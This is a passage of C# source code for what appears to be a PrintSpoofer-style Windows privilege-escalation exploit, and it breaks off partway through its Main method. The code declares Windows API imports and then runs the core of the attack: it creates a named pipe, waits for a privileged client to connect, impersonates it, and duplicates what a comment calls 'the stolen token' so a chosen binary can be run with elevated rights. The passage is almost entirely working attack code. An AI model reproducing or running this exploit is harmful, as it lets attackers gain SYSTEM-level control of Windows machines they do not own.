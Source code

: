         [DllImport("Advapi32.dll")]
        static extern bool ImpersonateNamedPipeClient(IntPtr hNamedPipe);

        [DllImport("advapi32.dll", SetLastError = true)]
        static extern bool OpenThreadToken(IntPtr ThreadHandle, uint DesiredAccess, bool OpenAsSelf, out IntPtr TokenHandle);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentThread();

        [DllImport("advapi32", SetLastError = true, CharSet = CharSet.Unicode)]
        public static extern bool CreateProcessWithTokenW(IntPtr hToken, LogonFlags dwLogonFlags, string lpApplicationName, string lpCommandLine, CreationFlags dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);

        [DllImport("advapi32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        public extern static bool DuplicateTokenEx(IntPtr hExistingToken, uint dwDesiredAccess, IntPtr lpTokenAttributes, uint ImpersonationLevel, uint TokenType, out IntPtr phNewToken);

        [DllImport("advapi32.dll", SetLastError = true)]
        static extern bool RevertToSelf();

        [DllImport("kernel32.dll")]
        static extern uint GetSystemDirectory([Out] StringBuilder lpBuffer, uint uSize);

        [DllImport("userenv.dll", SetLastError = true)]
        static extern bool CreateEnvironmentBlock(out IntPtr lpEnvironment, IntPtr hToken, bool bInherit);

        public static void Main(string[] args)
        {
            // Parse arguments (pipe name)
            if (args.Length != 2)
            {
                Console.WriteLine("Please enter the pipe name to be used and the binary to trigger as arguments.\nExample: .\\PrintSpoofer.exe \\\\.\\pipe\\test\\pipe\\spoolss c:\\windows\\tasks\\bin.exe");
                return;
            }
            string pipeName = args[0];
            string binToRun = args[1];

            // Create our named pipe
            IntPtr hPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_BYTE | PIPE_WAIT, 10, 0x1000, 0x1000, 0, IntPtr.Zero);

            // Connect to our named pipe and wait for another client to connect
            Console.WriteLine("Waiting for client to connect to named pipe...");
            bool result = ConnectNamedPipe(hPipe, IntPtr.Zero);

            // Impersonate the token of the incoming connection
            result = ImpersonateNamedPipeClient(hPipe);

            // Open a handle on the impersonated token
            IntPtr tokenHandle;
            result = OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, false, out tokenHandle);

            // Duplicate the stolen token
            IntPtr sysToken = IntPtr.Zero;
            DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, IntPtr.Zero, SECURITY_IMPERSONATION, TOKEN_PRIMARY, out sysToken);

